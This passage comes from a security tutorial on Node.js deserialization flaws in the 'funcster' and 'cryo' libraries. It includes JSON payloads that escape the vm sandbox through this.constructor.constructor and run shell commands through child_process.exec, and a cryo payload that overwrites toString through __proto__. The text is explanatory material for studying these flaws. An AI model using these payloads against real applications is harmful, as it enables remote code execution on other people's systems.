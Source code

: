 **funcster**

The `funcster` module is also affected by a deserialization vulnerability. However, this time, the vulnerability is triggered via `module.exports` and executed within a sandboxed environment:

```js
// https://github.com/jeffomatic/funcster/blob/master/js/lib/funcster.js
83. _generateModuleScript: function(serializedFunctions) {
84.      var body, entries, name;
85.      entries = [];
86.      for (name in serializedFunctions) {
87.        body = serializedFunctions[name];
88.        entries.push("" + (JSON.stringify(name)) + ": " + body);
89.      }
90.      entries = entries.join(',');
91.      return "module.exports=(function(module,exports){return{" + entries + "};})();";
92.    },
...
141. vm.createScript(script, opts.filename).runInNewContext(sandbox);
142. return sandbox.module.exports;
```

For this reason, we cannot directly call function as `require()`. However, we can still exploit it via sandbox bypassing. The common technique to achieve that is to access global objects via `this.constructor.costructor`. This payload can be used to achieve RCE on an application using `require('funcster').unserialize()`:

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```

**cryo**

The last module we'll see is `cryo`. This library, as explicitly stated on the module website, extends the JSON functionalities offering complex object and function serialization.

This library is not directly vulnerable to RCE via deserialization, because it properly handles function and complex objects. However, it allows for object prototypes redefinition. As you may know, any object in JavaScript holds is own properties and methods. Usually, it's not possible to add properties to an existing object constructor, however, JavaScript prototype allows to add/redefine properties or methods at runtime, without adding them via the default constructor. Additionally, we can access the `Object.prototype` property using the `__proto__` property.

The `__proto__` property of Object.prototype is an accessor property (a getter function and a setter function) that exposes the internal [[Prototype]] (either an object or null) of the object through which it is accessed.

If we manipulate the `__proto__` property, then, we could be able to overwrite/redefine standard methods of the object we want to deserialize, such as `toString()` or `valueOf()`. So, what would happen if we try to deserialize the following JSON payload?

```js
{
    "root":"_CRYO_REF_2",
    "references":[{
        "contents":{},
        "value":"_CRYO_FUNCTION_function(){ CMD = \"cmd /c calc\"; const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD, function(error, stdout, stderr) { console.log(stdout) });}()"
    },
    {
        "contents":{"toString":"_CRYO_REF_0"},
        "value":"_CRYO_OBJECT_" },
    {
        "contents":{"__proto__":"_CRYO_REF_1"},
        "value":"_CRYO_OBJECT_"        
    }]
```